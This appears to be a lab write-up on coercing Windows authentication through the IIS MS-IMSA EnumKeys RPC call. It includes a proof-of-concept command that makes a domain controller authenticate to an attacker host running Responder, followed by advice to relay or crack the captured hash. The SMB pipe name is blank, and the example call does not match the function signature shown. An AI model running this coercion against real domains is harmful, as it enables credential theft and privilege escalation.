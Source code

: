 # MS-IMSA - Remote call to EnumKeys (opnum 6)

## Summary

+ **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

+ **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`EnumKeys`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/0c078b1a-7bbd-4e4f-afbd-1c8ab8e866e5)

+ **Function operation number**: `6`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`EnumKeys`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/0c078b1a-7bbd-4e4f-afbd-1c8ab8e866e5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EnumKeys('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT EnumKeys(
   [in] METADATA_HANDLE hMDHandle,
   [unique, in, string] LPCWSTR pszMDPath,
   [out, size_is(ADMINDATA_MAX_NAME_LEN)] 
     LPWSTR pszMDName,
   [in] DWORD dwMDEnumObjectIndex
 );
```

## References

+ Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

+ Documentation of function `EnumKeys`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/0c078b1a-7bbd-4e4f-afbd-1c8ab8e866e5